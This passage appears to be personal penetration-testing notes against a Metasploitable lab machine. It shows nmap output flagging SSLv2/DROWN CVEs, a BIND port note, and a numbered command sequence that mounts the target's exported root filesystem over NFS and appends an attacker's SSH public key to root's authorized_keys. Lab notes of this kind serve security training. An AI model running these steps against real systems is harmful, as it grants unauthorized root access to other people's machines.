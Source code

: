 |       cipher, which allows man-in-the-middle attackers to determine the MASTER-KEY value
|       and decrypt TLS ciphertext data by leveraging a Bleichenbacher RSA padding oracle, a
|       related issue to CVE-2016-0800.
|     
|       refs: 
|         https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0703
|         https://www.openssl.org/news/secadv/20160301.txt
|     CVE-2016-0800: 
|       title: OpenSSL: Cross-protocol attack on TLS using SSLv2 (DROWN)
|       state: VULNERABLE
|       ids: 
|         CVE:CVE-2016-0800
|       description: 
|               The SSLv2 protocol, as used in OpenSSL before 1.0.1s and 1.0.2 before 1.0.2g and
|       other products, requires a server to send a ServerVerify message before establishing
|       that a client possesses certain plaintext RSA data, which makes it easier for remote
|       attackers to decrypt TLS ciphertext data by leveraging a Bleichenbacher RSA padding
|       oracle, aka a "DROWN" attack.
|     
|       refs: 
|         https://www.openssl.org/news/secadv/20160301.txt
|_        https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0800

didnt really see that these cve's are dangerous

################################################################################################
53/tcp   open  domain      ISC BIND 9.4.2

https://charlesreid1.com/wiki/Metasploitable/DNS_Bind

################################################################################################
111/tcp  open  rpcbind     2 (RPC #100000)
2049/tcp open  nfs         2-4 (RPC #100003)

1. showmount -e 192.168.1.117
2. mkdir -p /root/.ssh
3. cd /root/.ssh/
4. cat /dev/null > known_hosts
5. ssh-keygen -t rsa -b 4096
	Enter file in which to save the key (/root/.ssh/id_rsa): xtech
6. cd /
7. mount -t nfs 192.168.1.117:/ /mnt -o nolock
8. df -k
9. cd /mnt/root/.ssh
10. cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/
11. ls -l
12. cat authorized_keys
13. cat hacker_rsa.pub >> authorized_keys
14. cat authorized_keys
15. cd /root/.ssh/